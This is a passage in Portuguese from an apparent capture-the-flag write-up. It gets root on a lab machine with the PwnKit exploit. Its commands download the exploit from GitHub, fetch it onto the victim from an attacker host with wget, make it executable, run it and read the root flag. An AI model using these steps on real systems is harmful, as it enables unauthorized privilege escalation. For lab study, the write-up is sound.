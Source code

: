 Iremos explorar a primeira vulnerabilidade: **PwnKit**. Para saber mais veja: https://github.com/ly4k/PwnKit. Novamente, na máquina linux iremos fazer o download no nosso diretório:

```shell
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
```

na máquina da vítima iremos importar esse arquivo usando o comando:

```shell
wget http://10.17.85.110:8000/PwnKit
```

após isso, iremos usar o comando:

```shell
chmod +x PwnKit
```

Por fim, só executar:

```shell
./PwnKit
```

Agora só navegar no repositório **/root** a flag é **root.txt**.
